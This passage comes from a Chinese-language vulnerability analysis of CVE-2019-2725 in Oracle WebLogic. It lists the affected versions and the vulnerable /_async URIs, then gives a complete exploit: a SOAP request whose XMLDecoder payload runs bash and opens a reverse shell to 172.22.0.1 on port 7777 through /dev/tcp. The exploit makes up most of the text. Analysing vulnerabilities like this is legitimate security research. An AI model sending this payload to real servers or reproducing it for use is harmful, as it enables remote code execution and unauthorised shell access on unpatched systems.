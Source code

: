 使用黑名单对上述标签进行了过滤

### 2.5 CVE-2019-2725 分析

**影响范围**：  
WebLogic 10.X  
WebLogic 12.1.3  
**影响 uri**：

```bash
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
/_async/AsyncResponseServiceSoap12
/_async/AsyncResponseServiceSoap12Jms
/_async/AsyncResponseServiceSoap12Https
```

**复现**：  
exp：

```bash
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:wsa="http://www.w3.org/2005/08/addressing"
                  xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action>xx</wsa:Action>
        <wsa:RelatesTo>xx</wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```
